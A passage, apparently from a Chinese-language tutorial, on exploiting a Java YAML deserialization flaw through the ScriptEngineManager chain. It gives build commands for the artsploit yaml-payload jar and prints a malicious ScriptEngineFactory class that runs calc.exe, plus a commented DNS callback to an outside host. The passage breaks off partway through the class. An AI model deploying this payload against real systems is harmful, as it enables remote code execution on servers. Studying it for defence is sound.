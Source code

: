 dnslog 平台出现请求记录，用于验证是否存在该漏洞且 ScriptEngineManager 链是否可用

**命令执行**：  
现成的利用项目：[https://github.com/artsploit/yaml-payload.git](https://github.com/artsploit/yaml-payload.git)  
更改里面的命令执行代码，使用以下命令进行编译即可

```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

注意：一定要使用一致的 java 版本进行编译  
其中在 META/services 文件夹的文件中，里面的内容即是我们的恶意类  
[![](assets/1701612157-f77797ed7119138edb5c9a7d3573647b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230813204529-48df84c0-39d7-1.png)  
在 AwesomeScriptEngineFactory 类中，它实现了 ScriptEngineFactory 接口

```bash
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            // Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            // Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }
```